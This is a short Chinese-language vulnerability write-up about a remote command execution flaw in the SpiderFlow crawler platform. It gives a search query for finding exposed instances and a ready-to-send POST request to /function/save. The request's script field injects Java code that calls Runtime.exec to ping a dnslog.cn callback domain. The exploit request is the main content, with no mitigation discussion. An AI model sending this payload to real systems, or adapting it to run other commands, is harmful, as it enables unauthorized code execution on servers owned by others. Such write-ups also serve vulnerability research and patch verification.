


# SpiderFlow save 远程命令执行漏洞

## 漏洞描述

SpiderFlow 平台以流程图的⽅式定义爬虫，是⼀个高度灵活可配置的爬虫平台

官⽹：https://www.spiderflow.org/

## 漏洞影响

```
SpiderFlow
```

## 网络测绘

```
title=="SpiderFlow"
```

## 漏洞复现

主页面



发送请求包执行命令

```
POST /function/save

id=&name=cmd&parameter=yw&script=}Java.type('java.lang.Runtime').getRuntime().exec('ping chwd71.dnslog.cn');{
```

